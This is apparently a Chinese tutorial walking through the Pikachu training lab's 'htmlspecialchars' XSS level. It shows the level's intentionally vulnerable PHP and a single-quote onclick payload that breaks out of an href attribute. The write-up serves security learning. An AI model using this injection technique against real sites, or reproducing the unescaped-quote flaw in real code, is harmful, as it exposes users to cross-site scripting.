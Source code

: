 # xss之htmlspecialchars

# 一、代码审计

该关卡的代码如下

```php+HTML
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "xss_02.php"){
    $ACTIVE = array('','','','','','','','active open','','','','','','','','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');

}

$PIKA_ROOT_DIR =  "../../";
include_once $PIKA_ROOT_DIR.'header.php';

$html='';
$html1='';
$html2='';
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧！</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}


?>

<div class="main-content">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="xss.php">xss</a>
                </li>
                <li class="active">xss之htmlspecialchars</li>
            </ul><!-- /.breadcrumb -->

            <a href="#" style="float:right" data-container="body" data-toggle="popover" data-placement="bottom" title="tips(再点一下关闭)"
               data-content="先去查一下htmlspecialchars这个方法的含义">
                点一下提示~
            </a>

        </div>
        <div class="page-content">

            <div id="xssr_main">
                <p class="xssr_title">人生之所有苦短,是因为你的xss学习的还不够好</p>
                <form method="get">
                    <input class="xssr_in" type="text" name="message" />

                    <input class="xssr_submit" type="submit" name="submit" value="submit" />
                </form>
                <?php
                echo $html;
                echo $html1;
                echo $html2;
                ?>
            </div>

        </div><!-- /.page-content -->
    </div>
</div><!-- /.main-content -->





<?php
include_once $PIKA_ROOT_DIR.'footer.php';

?>
```

可以看到加入了htmlspecialchars()函数，对输入的一些字符都转换为实体标签

***

# 二、通关教程

htmlspecialchars() 是PHP里面把预定义的字符转换为HTML实体的函数，被转换的字符如下

```
# 插入下方字符时
"<'>#?

# 被转换后的代码
<a href="&quot;<" &gt;#?'="">"&lt;'&gt;#?</a>
```

![image-20230304133112924](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\XSS（跨站脚本）\images\image-20230304133112924.png)

根据上方返回的信息可以看到字符 " < >都被转换成了HTML实体函数，但字符'并未被转化(默认不对'进行处理)

插入的字符都会被包裹在a标签的href属性里，可以使用onclick属性执行弹窗命令

```
# 正常代码
<a href="1">1</a>

# Payload
' onclick=alert(/xss/) '		# 前后的'用于闭合a标签的href属性

# 插入Payload后
<a href="" onclick="alert(/xss/)" ''="">' onclick=alert(/xss/) '</a>
```

![image-20230304133428679](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\XSS（跨站脚本）\images\image-20230304133428679.png)

